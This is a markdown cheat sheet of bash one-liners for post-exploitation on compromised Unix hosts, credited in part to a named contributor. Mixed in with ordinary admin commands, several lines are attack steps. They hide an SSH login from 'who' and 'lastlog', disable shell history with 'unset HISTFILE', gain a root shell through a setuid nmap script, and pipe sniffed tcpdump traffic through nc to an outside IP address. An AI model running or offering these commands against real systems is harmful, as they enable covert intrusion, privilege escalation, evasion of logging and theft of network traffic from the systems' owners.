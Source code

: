 # Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash```

**Prevent terminal logging**
```bash
unset HISTFILE```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999```

**Recursively search for files within a directory**
```bash
zcat -rf ./* | grep "searchstring"

Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions

